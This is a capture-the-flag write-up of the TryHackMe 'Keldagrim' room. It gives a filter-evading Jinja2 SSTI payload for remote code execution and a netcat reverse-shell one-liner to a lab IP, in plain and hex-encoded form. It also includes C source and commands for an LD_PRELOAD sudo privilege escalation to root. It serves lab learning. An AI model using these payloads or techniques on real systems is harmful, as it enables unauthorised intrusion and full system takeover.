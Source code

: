 # Keldagrim

"The dwarves are hiding their gold!"

https://tryhackme.com/room/keldagrim

A fun room, with some rarer techniques and difficulties to get in.

1. Recon via nmap revealed just 22 and 80
2. On 80 was a 'gold mining' site, for MMOs - enumeration revealed no hidden directories or functionality
3. However, triggering a 404 would result in a page reflecting the bad URL. Classic XSS, but more relevant here, also SSTI (server side template injection).
4. The server helpfully reported it was running python, and using the url `/{{7*'7'}}` resulted in `bad url /7777777` or similar, which indicated this was Jinja2 or similar.

At this point I got stuck and had to sleep on it. Many of the common SSTI injections failed: while I could call `config.items()` to get data that showed I was on the right track (including a message under secret_key called 'if_only_this_was_a_flag'... thanks), all the next step injections failed, trying to get RCE, with a bland 500 error. It appeared that brackets and periods would both fail. Ultimately I found a payload that escaped both, from this blog: https://gusralph.info/jinja2-ssti-research/. The payload was:

```
/{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

This showed the user jed, bingo. Commands with spaces (e.g. `ls -la`) still failed however. Using + and %20 failed, but looking at the rest of the injection, hex encoding worked, e.g. `\x20` for spaces so the command would be `ls\x20-la`.

5. Trying the standard shell binder I use, `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.176.61 4444 >/tmp/f` failed. I tried various encodings and got weird results, so in the end used cyberchef to render it to hex, and set the spaces between characters to `\x`, resulting in this final payload which worked:

```
/{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x31\x30\x2e\x31\x30\x2e\x31\x37\x36\x2e\x36\x31\x20\x34\x34\x34\x34\x20\x3e\x2f\x74\x6d\x70\x2f\x66')|attr('read')()}}
```

6. On the machine as Jed, the user flag is in their home dir (could have got this with the SSTI RCE already). Running sudo -l revealed:

```
Matching Defaults entries for jed on keldagrim:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User jed may run the following commands on keldagrim:
    (ALL : ALL) NOPASSWD: /bin/ps
```

7. Being able to run ps as sudo is worthless, normally. I was stuck here for a bit, so ran linpeas.sh which revealed the bit I had missed: above, at the end of the default entries, is env_keep+=LD_PRELOAD

8. An LD_PRELOAD exploit is simple to perform. On my host machine I created shell.c like so:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

9. I then compiled this using `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`, then started a python webserver so i get download the binary to the client
10. Finally I triggered the exploit and got a root shell: `sudo LD_PRELOAD=/tmp/shell.so /bin/ps`

A small, two step room basically, but with some rarer privesc techniques, so fun.
